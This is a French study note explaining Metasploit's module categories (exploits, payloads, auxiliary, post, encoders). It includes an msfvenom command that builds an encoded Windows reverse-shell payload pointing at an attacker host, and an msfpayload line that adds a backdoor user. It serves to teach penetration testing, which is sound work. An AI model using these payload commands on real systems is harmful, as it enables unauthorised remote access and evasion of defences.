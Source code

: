 > [!NB]
> Cette partie vise à vous apporter une meilleure comprehension sur les use case des differents modules que le framework metasploit embarque

## Quelques informations supplementaires (optional):
- Tout les modules sont des classes écritent en Ruby :)
- Ils héritent de la class type-specific qui herite de Msf::Module 
- Nous avons la possibilité de creer nos propre module metasploit :=)

## Emplacement 
Les modules metasploit sont present dans le repertoire /usr/share/metasploit-framework/modules 
vous pouvez les lister en tappant la commande suivante :
```
ls -al /usr/share/metasploit-framework/modules
```

![[Pasted image 20240929193159.png]]

# Explication des differents modules :
## Exploits 
- Sert à exploiter une faille potentiellement presente sur un system d'exploitation 
- Large librairy prette à l'utilisation
- Ils sont  trié par OS
```
ls -al /usr/share/metasploit-framework/modules/exploits
```

	![[Pasted image 20240929194251.png]]

## Payloads 
- Ce sont des fichiers / des programme qu'on laisse sur la machien victime
- Les payloads permettent ç l'attaquand d'avoir un acces / controle sur la machine victime
```
ls -al /usr/share/metasploit-framework/modules/payload
```
![[Pasted image 20240929195055.png]]
#### Ils sont séparé en trois cathégories :

- **Singles :** Destiné à executer une tache spécifique tels que l'execution d'une commande
  ```
	msfpayload windows/adduser USER=h4ck3r PASS=Password X > Payload.exe
  ```


- **Stagers :**  Responsable d'établire des connection entre la machine attaquante et la machine cible pour delivrer des payloads plus complexe (stages)
``` 
	msfvenom -a x86 –platform windows -p windows/shell/reverse_tcp LHOST=10.10.10.1 LPORT=9999 -b “\x00” -e x86/shikata_ga_nai -f exe -o /Payloads/Payload.exe

```

- **Stages :** Délivrés par les stagers ils permettent d'obtenir des fonctionalité plus avancé tels qu'un reverse shell / un meterpreter  / VNC


## Auxeliary 
Ce sont des outils supplementaires permettant d'ameliorer les capacité de metasploit tels que :
- Scanners
- Fuzzers
- Dos
- Scanneuyr de vulnerabilitées
- etc

## Post
Les module poste ce sont les modules de post exploitation, qui permettent de faire d'autres attaques sur une machine compromise 
- Elevation de priviliege
- Keylogger
- Spy sur la webcam 
- etc

## Encoders & evasion
des modules qui permettent d'obfusquer et de contourner les protection mise en place sur une machine
- obfuscation




# Remerciments :
helloitsliam pour les explications
lilizeub pour la relecture 
HIP mes petites cigales <3 





